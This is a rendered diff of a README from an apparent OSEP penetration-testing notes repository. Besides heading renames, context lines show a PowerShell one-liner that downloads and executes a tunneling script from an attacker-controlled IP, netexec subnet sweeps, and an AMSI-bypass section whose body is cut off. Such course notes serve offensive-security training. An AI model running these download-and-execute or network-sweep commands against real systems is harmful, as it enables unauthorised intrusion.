

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,8 +1,9 @@
 Just a bunch of tools built/gathered along the OSEP course.
 
 1. [Tunneling](#Tunneling)
-2. [Map the network](#Map the network)
-
+2. [MapTheNetwork](#MapTheNetwork)
+3. [AMSI-Bypass](#AMSI-Bypass)
+4. [Useful Basic Commands](#UsefulBasicCommands)
 
 
 # Tunneling
@@ -16,7 +17,7 @@ Make sure you are running as x64 bit process before running:
 Invoke it: `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`
 
 
-# Map the network
+# MapTheNetwork
 - `nxc smb 172.16.125.0/24 --log hosts.txt` (for windows hosts)
 
 - `nxc ssh 172.16.125.0/24 --log hosts.txt` (for linux hosts)
@@ -26,7 +27,7 @@ Automation for `/etc/hosts` file:
 netexec smb 172.16.149.0/24 --log hosts.txt && sed -i 's/x64//g' hosts.txt && cat hosts.txt | awk '{print $9,$11,$11"."$21}' | sed 's/(domain://g' | sed 's/)//g' | uniq | sort -u | tr '[:upper:]' '[:lower:]' | sudo tee -a /etc/hosts
 ```
 
-# AMSI Bypass
+# AMSI-Bypass
 
 - Windows 10/11:
 ```
````
